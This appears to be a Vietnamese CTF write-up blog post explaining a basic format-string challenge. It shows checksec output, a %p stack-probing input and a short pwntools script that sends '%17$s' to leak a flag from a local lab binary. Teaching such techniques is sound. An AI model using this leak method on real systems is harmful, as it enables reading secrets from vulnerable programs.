








+++
title = "Pwn - Format String"
date = 2023-08-22
description = "Giải bài thực hành Format String cơ bản — kỹ thuật leak flag từ stack sử dụng hàm printf."
[taxonomies]
tags = ["ctf", "pwn", "format-string", "ida", "linux-security"]
[extra]
toc = true
+++

## chall1

Kiểm tra các mitigation trong binary:

```bash
$ file chall1
chall1: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=1e6ed713b2896590c8d244281f78ed7a40cd21af, for GNU/Linux 3.2.0, stripped

$ checksec --file=chall1
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols        No    0               4               chall1
```

Với bài này thì các thể loại mitigation đều đã bật (Full RELRO, Canary, NX, PIE), vì vậy ta cũng chẳng thể khai thác được gì từ Buffer Overflow hay thay đổi GOT.

<!-- more -->

Sử dụng IDA để phân tích binary, ta nhận thấy 2 hàm quan trọng:





Ở hàm main, ta có buffer 136 ký tự, và nhập chỉ tối đa 127 ký tự, vì vậy không có buffer overflow gì ở đây cả. Ở hàm xuất flag, nó chỉ đơn giản là đọc file `flag1.txt` và gán nội dung vào một biến `s`.

Ta chỉ chú ý tới hàm `printf` trong hàm main, vốn dĩ xuất những gì chúng ta nhập kèm theo format định dạng vào. Nếu không có đủ tham số truyền vào cho hàm `printf`, nó có thể lấy tham số ở stack để xuất ra. Vì vậy, ta có thể lợi dụng điều này để dẫn chương trình tới biến có flag để xuất flag.

- `%s`: xuất ra nội dung dưới dạng string.
- `%3$s`: xuất nội dung ở vị trí thứ 3 trong stack.
- `%p`: trả về địa chỉ con trỏ, dùng để xem cần bao nhiêu offset để đến biến flag.

Khi mình debug binary, mình đặt breakpoint tại vị trí hàm `printf`, sau đó dẫn chương trình chạy tới đoạn `printf(s)` với input là `%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p`, kết quả:





Mình phát hiện ra 2 pointer trong stack giống như output, là `0xa7025207025` và `0x555555559450`, nên mình quyết định tìm hiểu trong stack có gì:



Và ngay tại vị trí `0b` (hay 11), chúng ta thấy flag có sẵn. Tuy nhiên, nếu ta nhập `%11$s` thì:





Vậy là chúng ta phải đi đến `%17$s` thì pointer mới chạm đến flag của chúng ta.

**Script**:

```python
from pwn import *
p = process("./chall1")
p.sendline(b"%17$s")
p.interactive()
```


